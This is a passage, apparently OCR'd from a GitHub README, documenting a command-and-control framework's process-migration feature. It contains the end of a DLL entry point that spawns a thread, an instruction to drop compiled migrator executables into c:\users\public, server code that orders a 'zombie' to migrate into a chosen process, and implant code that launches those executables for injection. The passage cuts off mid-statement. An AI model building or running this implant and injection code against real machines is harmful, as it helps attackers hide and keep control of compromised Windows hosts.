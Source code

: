 ```c++
            ThreadProc, // thread function
            NULL,       // argument to thread function
            0,          // use default creation flags
            NULL);      // returns the thread identifier

        if (hThread) {
            // Close the thread handle as we don't need it anymore
            CloseHandle(hThread);
        }
        break;
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
- Next, open and compile the `migrator.sln` and `migrator2.sln` projects and move the compiled executables into the `c:\users\public` directory 😺


> **Server side code**

```python
if choice == "migrate":
            try:
                print("What's the process ID of the target process you'd like to migrate into?")
                print("(If in a non-admin shell, just enter any number to proceed)")
                procID = input(":")
                print("procID: ", procID)
                msg1 = f":migrate:{procID}\n" 
                clientlist[selection][1].send(msg1.encode('utf-8'))
                #print(Fore.GREEN + "[+] Initiating migration process now!" + Fore.WHITE)
                migrationstatus=clientlist[selection][1].recv(1024)
                migrationstatus = migrationstatus.decode('UTF-8')
                print(migrationstatus)
                if "newly" in migrationstatus:
                    return
                migrationstatus=clientlist[selection][1].recv(1024)
                migrationstatus = migrationstatus.decode('UTF-8')
                print(migrationstatus)
                time.sleep(4)
            except:
                print(Fore.RED + "[!] there was an error sending the msg to the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
```

> **Client / Implant code**

```python
if ":migrate:" in data:
            try:
                if str(shell.IsUserAnAdmin()) == "False":
                    client.send(b"You're not running in an elevated shell so we can't migrate into an existing process.  Creating a process for you to migrate into.  If all goes well you should have a shell soon in the newly created process!\n")
                    proc = subprocess.Popen("C:/Users/public/migrator.exe", stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                client.send(b"Initiating migration now!\n")
                procID = data.split(":")
                procID = procID[2]
                print("received procID: ", procID)
                proc = subprocess.Popen(["C:/Users/public/migrator2.exe", procID],
```